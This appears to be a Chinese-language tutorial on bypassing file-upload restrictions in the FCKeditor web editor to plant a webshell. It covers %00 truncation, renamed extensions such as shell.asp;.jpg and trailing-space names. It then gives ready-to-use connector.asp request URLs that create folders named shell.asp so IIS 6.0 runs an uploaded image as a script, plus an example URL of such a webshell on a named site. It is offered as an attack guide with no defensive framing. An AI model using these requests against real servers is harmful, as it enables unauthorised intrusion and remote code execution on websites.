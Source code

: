 # 三、FCKeditor 突破上传

> 原文：[https://www.zhihuifly.com/t/topic/2936](https://www.zhihuifly.com/t/topic/2936)

# 上传限制

上传限制的突破方式很多，主要还是抓包改扩展名，%00截断，添加文件头等

# 文件名限制

## 二次上传绕过

文件名‘ . ’ 修改为‘ _ ’

FCK在上传了诸如shell.asp;.jpg的文件后，会自动将文件名改为shell_asp;.jpg。可以继续上传同名文件，文件名会变为shell.asp;(1).jpg

## 提交shell.php+空格绕过

提交shell.php+空格绕过

空格只支持windows系统，linux系统是不支持的，可提交shell.php+空格来绕过文件名限制。

# iis6.0突破文件夹限制

```
Fckeditor/editor/filemanager/connectors/asp/connector.asp?Command=CreateFolder&Type=File&CurrentFolder=/shell.asp&NewFolderName=z.asp
FCKeditor/editor/filemanager/connectors/asp/connector.asp?Command=CreateFolder&Type=Image&CurrentFolder=/shell.asp&NewFolderName=z&uuid=1244789975684
FCKeditor/editor/filemanager/browser/default/connectors/asp/connector.asp?Command=CreateFolder&CurrentFolder=/&Type=Image&NewFolderName=shell.asp 
```

# 文件解析限制

通过Fckeditor编辑器在文件上传页面中，创建诸如1.asp文件夹，然后再到该文件夹下上传一个图片的webshell文件，获取其shell。

```
http://www.0-sec.oimg/upload/201806/image/1.asp/1.jpg 
```